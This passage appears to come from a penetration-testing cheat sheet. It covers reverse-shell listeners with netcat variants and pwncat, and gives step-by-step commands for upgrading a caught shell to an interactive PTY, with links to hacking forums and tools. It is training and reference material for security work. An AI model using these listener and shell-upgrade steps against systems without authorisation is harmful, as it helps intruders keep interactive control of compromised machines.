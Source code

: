 1. [github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

## Listeners

```shell
root@kali:$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```

### pwncat

* [github.com/cytopia/pwncat](https://github.com/cytopia/pwncat)
* [securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/](https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/)

## Upgrade to PTY

* [securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/](https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/)

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
# Or
$ script -q /dev/null sh

user@remote:$ ^Z
(background)

root@kali:$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
(get ROWS and COLS)

root@kali:$ stty raw -echo; fg

(?) user@remote:$ reset

user@remote:$ stty rows ${ROWS} cols ${COLS}

user@remote:$ export TERM=xterm
(or xterm-color or xterm-256color)

(?) user@remote:$ exec /bin/bash [-l]
```

1. [forum.hackthebox.eu/discussion/comment/22312#Comment_22312](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312)
2. [xakep.ru/2019/07/16/mischief/#toc05.1](https://xakep.ru/2019/07/16/mischief/#toc05.1)

# File Transfer


## Linux

* [https://jiveturkey.rocks/admin/2020/12/07/simple-http-servers.html](https://jiveturkey.rocks/admin/2020/12/07/simple-http-servers.html)

